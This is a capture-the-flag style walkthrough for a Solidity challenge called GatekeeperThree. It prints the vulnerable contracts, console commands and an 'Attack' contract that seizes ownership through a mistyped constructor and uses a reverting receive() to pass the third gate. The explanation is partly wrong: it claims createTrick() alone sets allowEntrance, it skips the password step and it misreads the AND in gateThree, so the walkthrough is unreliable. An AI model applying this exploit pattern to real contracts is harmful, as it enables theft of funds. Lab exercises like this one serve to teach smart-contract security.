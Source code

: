 # Challenge 28

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SimpleTrick {
  GatekeeperThree public target;
  address public trick;
  uint private password = block.timestamp;

  constructor (address payable _target) {
    target = GatekeeperThree(_target);
  }
    
  function checkPassword(uint _password) public returns (bool) {
    if (_password == password) {
      return true;
    }
    password = block.timestamp;
    return false;
  }
    
  function trickInit() public {
    trick = address(this);
  }
    
  function trickyTrick() public {
    if (address(this) == msg.sender && address(this) != trick) {
      target.getAllowance(password);
    }
  }
}

contract GatekeeperThree {
  address public owner;
  address public entrant;
  bool public allowEntrance;

  SimpleTrick public trick;

  function construct0r() public {
      owner = msg.sender;
  }

  modifier gateOne() {
    require(msg.sender == owner);
    require(tx.origin != owner);
    _;
  }

  modifier gateTwo() {
    require(allowEntrance == true);
    _;
  }

  modifier gateThree() {
    if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
      _;
    }
  }

  function getAllowance(uint _password) public {
    if (trick.checkPassword(_password)) {
        allowEntrance = true;
    }
  }

  function createTrick() public {
    trick = new SimpleTrick(payable(address(this)));
    trick.trickInit();
  }

  function enter() public gateOne gateTwo gateThree {
    entrant = tx.origin;
  }

  receive () external payable {}
}
```

Challenge 28
---
> Cope with gates and become an entrant.

> Things that might help:

 Recall return values of low-level functions.

 Be attentive with semantic.

 Refresh how storage works in Ethereum.

Solution : Challenge 28

1. First we have `gateOne()` if we want to pass then `msg.sender` needs to be `owner` and second condition is `tx.origin != owner` means `tx.origin` must not be owner that means it must be contact,
let's keep in mind this for now we will get to this later.

2. `allowEntrance == true` for this we need to know password openup the terminal and get the password which is private 
get to the timestamp.

```shell
await contract.createTrick();
```

check the `allowEntrance` it will be true.

```shell
await contrtact.allowEntrance();
```

3. we need to pass the gate three you need to know `&&` operation
```solidity
 modifier gateThree() {
    if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
      _;
    }
  }
```

either contract balance is greater than `0.001 ether` or the owner needs to send `0.001 ether` for that 

```shell
await web3.eth.sendTransaction({from: player, to: "0x5507b2782471A4d0b53B9F5D9E068085415b38aF", value: web3.utils.toWei("0.002", "ether")})
```

now third gate passed.

let's get to the gateOne,open remix and create Contract.

```solidity
contract Attack {
   GatekeeperThree public gate;

    constructor(address payable _addr) public payable {
        gate = GatekeeperThree(_addr);
    }

    function becomeOwner() public {
        gate.construct0r();
    }    

    function enter() public {
        (bool result,) = address(gate).call(abi.encodeWithSignature("enter()"));
      require(result);
    }

    receive() external payable{
      revert();
    }
}
```

now deploy the contract with instance address, call the `becomeOwner()` and after that call the `enter()` your call will be successful. let's see the `entrant`.

```shell
await contract.entrant();
```

your (player) address will be updated. and submit the instance and your level will be cleared🎉.